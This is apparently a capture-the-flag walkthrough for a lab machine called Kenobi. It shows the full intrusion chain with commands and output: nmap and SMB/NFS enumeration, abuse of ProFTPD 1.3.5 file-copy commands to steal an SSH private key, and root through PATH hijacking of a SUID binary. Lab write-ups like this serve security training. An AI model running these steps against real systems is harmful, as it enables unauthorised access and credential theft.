# Kenobi

### Deploy the vulnerable machine
- Scan the machine with nmap, how many ports are open?

          nmap 10.10.93.61 --min-rate=2000 -n -Pn  
        Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 06:58 EDT
        Nmap scan report for 10.10.93.61
        Host is up (0.047s latency).
        Not shown: 993 closed tcp ports (conn-refused)
        PORT     STATE SERVICE
        21/tcp   open  ftp
        22/tcp   open  ssh
        80/tcp   open  http
        111/tcp  open  rpcbind
        139/tcp  open  netbios-ssn
        445/tcp  open  microsoft-ds
        2049/tcp open  nfs

Nmap done: 1 IP address (1 host up) scanned in 0.66 seconds
`7`

### Enumerating Samba for shares
- Using the nmap command above, how many shares have been found?

      nmap --script smb-enum-shares.nse -p445 10.10.93.61
      Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 07:00 EDT
      Nmap scan report for 10.10.93.61
      Host is up (0.052s latency).
      
      PORT    STATE SERVICE
      445/tcp open  microsoft-ds
      
      Host script results:
      | smb-enum-shares: 
      |   account_used: guest
      |   \\10.10.93.61\IPC$: 
      |     Type: STYPE_IPC_HIDDEN
      |     Comment: IPC Service (kenobi server (Samba, Ubuntu))
      |     Users: 1
      |     Max Users: <unlimited>
      |     Path: C:\tmp
      |     Anonymous access: READ/WRITE
      |     Current user access: READ/WRITE
      |   \\10.10.93.61\anonymous: 
      |     Type: STYPE_DISKTREE
      |     Comment: 
      |     Users: 0
      |     Max Users: <unlimited>
      |     Path: C:\home\kenobi\share
      |     Anonymous access: READ/WRITE
      |     Current user access: READ/WRITE
      |   \\10.10.93.61\print$: 
      |     Type: STYPE_DISKTREE
      |     Comment: Printer Drivers
      |     Users: 0
      |     Max Users: <unlimited>
      |     Path: C:\var\lib\samba\printers
      |     Anonymous access: <none>
      |_    Current user access: <none>
      
      Nmap done: 1 IP address (1 host up) scanned in 9.54 seconds
  `3`

- Once you're connected, list the files on the share. What is the file can you see? <br />
![image](https://github.com/user-attachments/assets/be5aece6-70a3-4d49-aeb1-57ed2279cf89)<br />
`log.txt`. This file shows us some interesting commands used by the user 'kenobi' to create ssh keys: <br />
![image](https://github.com/user-attachments/assets/50276114-ff1a-452b-8a4b-edc1a5c870f1) <br />

- What port is FTP running on? `21`
- What mount can we see?

      nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.93.61
      Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 07:06 EDT
      Nmap scan report for 10.10.93.61
      Host is up (0.047s latency).
      
      PORT    STATE SERVICE
      111/tcp open  rpcbind
      | nfs-showmount: 
      |_  /var *
      
      Nmap done: 1 IP address (1 host up) scanned in 1.19 seconds
`/var`

### Gain initial access with ProFtpd
- Lets get the version of ProFtpd. Use netcat to connect to the machine on the FTP port. What is the version? <br />
![image](https://github.com/user-attachments/assets/9710dfaa-b739-4f29-9d4f-fe7a6b95b79f)<br />
`1.3.5`
- We can use searchsploit to find exploits for a particular software version. Searchsploit is basically just a command line search tool for exploit-db.com. How many exploits are there for the ProFTPd running? <br />
![image](https://github.com/user-attachments/assets/d1833b74-ba1d-4f3b-8a33-6cc4eced42aa)<br />
`4`
- What is Kenobi's user flag (/home/kenobi/user.txt)? <br />
The ProFTPD version implements the SITE CPFR and SITE CPTO commands, with copies and moves files directly on the server. Since we have access to the NFS share on /var/, and since we know from the `log.txt` file that the user 'kenobi' created an ssh key pair, we can move the private key inside the nfs shared file system.
![image](https://github.com/user-attachments/assets/61ee75fa-800d-4f24-b157-4ca2414d02a5) <br />
Now let's try to mount the nfs file system to see if we can find the id_rsa file we just moved:

      mkdir mnt 
      mkdir mnt/kenobiNFS
      sudo mount 10.10.93.61:/var mnt/kenobiNFS
      ls -la mnt/kenobiNFS/tmp
And there we have our private key: <br />
![image](https://github.com/user-attachments/assets/7799aa03-c720-49eb-93b9-b90f209dc957)<br />
We can now use it to log into kenobi's account: 

    cp mnt/kenobiNFS/tmp/id_rsa .
    chmod 600 id_rsa
    ssh -i id_rsa kenobi@10.10.93.61
![image](https://github.com/user-attachments/assets/b07caa29-f1a6-4601-ab98-d30e4b2f4e0e) <br />



### Privilege Escalation with Path Variable Manipulation
- What file looks particularly out of the ordinary?
      
      find / -perm -04000 2>/dev/null
        /sbin/mount.nfs
        /usr/lib/policykit-1/polkit-agent-helper-1
        /usr/lib/dbus-1.0/dbus-daemon-launch-helper
        /usr/lib/snapd/snap-confine
        /usr/lib/eject/dmcrypt-get-device
        /usr/lib/openssh/ssh-keysign
        /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
        /usr/bin/chfn
        /usr/bin/newgidmap
        /usr/bin/pkexec
        /usr/bin/passwd
        /usr/bin/newuidmap
        /usr/bin/gpasswd
        /usr/bin/menu
        /usr/bin/sudo
        /usr/bin/chsh
        /usr/bin/at
        /usr/bin/newgrp
        /bin/umount
        /bin/fusermount
        /bin/mount
        /bin/ping
        /bin/su
        /bin/ping6

`/usr/bin/menu`
- Run the binary, how many options appear? <br />
![image](https://github.com/user-attachments/assets/87d17135-8d5f-49ad-8d68-a0c0051dc7ae)<br />
`3`
- What is the root flag (/root/root.txt)? <br />
If we run the `strings` command on the binary, we can see that the program calls the "curl" command, but it does not call the full path of curl (/usr/bin/curl), but calls the relative path, since it's in the same directory <br />
![image](https://github.com/user-attachments/assets/e07db223-9b1c-41b2-83ec-383286d457ba) <br />
We can exploit this by creating a file named "curl" inside another folder, for example /tmp, and then modify our environment variable $PATH, by adding /tmp at the beginning of PATH. So here's the list of commands to run:

      cd /tmp
      echo "/bin/sh" > curl
      export PATH=/tmp:$PATH

  ![image](https://github.com/user-attachments/assets/c61791fd-abf9-42cc-83e9-bfe6041e065c)<br />
  Run `cat /root/root.txt` to get the root flag

